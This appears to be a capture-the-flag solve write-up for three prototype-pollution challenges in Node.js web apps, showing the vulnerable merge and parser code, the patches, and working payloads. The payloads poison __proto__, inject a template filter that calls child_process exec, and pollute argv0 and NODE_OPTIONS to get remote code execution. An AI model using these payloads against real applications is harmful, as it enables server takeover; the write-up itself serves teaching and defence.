 # Solve:

## babyproto1:

### Where is the vulnerability and why it occurs

The problematic code is the deep merge function:
```javascript
function deepMerge(target, source) {
    let output = Object.assign({}, target);
    if (isObject(target) && isObject(source)) {
        for (let key in source){
            if(source.hasOwnProperty(key)){
                if(isObject(source[key])){
                    deepMerge(target[key], source[key])
                }else{
                    target[key] = source[key]
                }
            }
        }
    }
    return output;
}
```
In this function, it uses `target[key] = source[key]` to assign the value of `source[key]` to `target[key]`. 
However, if the target is something like `__proto__`, then it will pollute all objects. For example, 
in this case, `__proto__.flag = polluted`.

### How to exploit the vulnerability and retrieve the flag

- To trigger the vulnerability, we can input the following into the input boxes,
where locationID is `__proto__`, and the custom key is `flag`, and the custom value is `polluted`.
This would create the data package looking like  (`1` are just placeholders)::
```json
{
    "__proto__": {
        "name": "1",
        "AQ": "1",
        "latitude": "1",
        "longitude": "1",
        "flag": "polluted"
    }
}
```
- To retrieve the flag, simply append `/flag` to the url.

### How the .patch file works

The patch works by adding a check to the `deepMerge` function to prevent prototype pollution.
```javascript
if (key === "__proto__" || key === "constructor" || key === "prototype") {continue;}
```
The check is done by checking keywords like `__proto__` or `constructor` or `prototype`,
and will skip the current iteration of the loop to prevent the pollution.

## toddlerproto2:

### Where is the vulnerability and why it occurs

The problematic code is the deep merge function:
```javascript
function deepMerge(target, source) {
    let output = Object.assign({}, target);
    if (isObject(target) && isObject(source)) {
        for (let key in source){
            if(source.hasOwnProperty(key)){
                if(isObject(source[key])){
                    deepMerge(target[key], source[key])
                }else{
                    target[key] = source[key]
                }
            }
        }
    }
    return output;
}
```
In this function, it uses `target[key] = source[key]` to assign the value of `source[key]` to `target[key]`.
However, if the target is something like `__proto__`, then it will pollute all objects.
In this case, `__proto__.defaultFilter`.
The template engine will be polluted, and 
we can execute arbitrary code by calling the `defaultFilter` as the engine is rendering.

### How to exploit the vulnerability and retrieve the flag

- To trigger the vulnerability, we can input malicious code into the input boxes
that would create the data package looking like this (`1` are just placeholders):
```json
{
    "__proto__": {
        "name": "1",
        "AQ": "1",
        "latitude": "1",
        "longitude": "1",
      "defaultFilter": "e')); process.mainModule.constructor._load('child_process').exec('touch touch.txt');//"
    }
}
```
- We then rerender the page
- To retrieve the flag, simply append `/flag` to the url.

### How the .patch file works

The patch uses `Object.freeze(Object.prototype)` at the beginning of the app
to prevent prototype pollution.

## my-sis-system:

### Where is the vulnerability and why it occurs

The vulnerability is the ION parser.
```javascript
set(key, val) {
    let keyElements = splitElements(key);
    key = keyElements.pop();
    let elements = this.getFullScope(keyElements);
    let data = getTable(this.data, elements);
    if (typeof data == 'string')
        return data;
    data[key] = val;
}
```
There is no checks for keys like `__proto__`, `constructor`,
or `prototype`, which may lead to prototype pollution like the previous two challenges.
And since the server uses `child_process.spawn()` to restart when error happens, 
we can pollute argv0 and NODE_OPTIONS to execute arbitrary code.

### How to exploit the vulnerability and retrieve the flag

To trigger the vulnerability, I sent a `POST` request to the `/login` with the following body:
```text
title = "userData"

[__proto__] 
argv0 = "require('child_process').exec('cat ./flag.txt > ./public/pages/empty.html', {shell: '/bin/bash'},(error, stdout, stderr) => {if (error) {console.error('RCE');return;}})//"
NODE_OPTIONS = "--require /proc/self/cmdline"
```
This allows RCE to modify the content of empty.html to the content of the flag

- Wait for the server to restart
- Retrieve the flag by visiting `/empty`.

### How the .patch file works

The patch uses `Object.freeze(Object.prototype)` at the beginning of the app
to prevent prototype pollution.


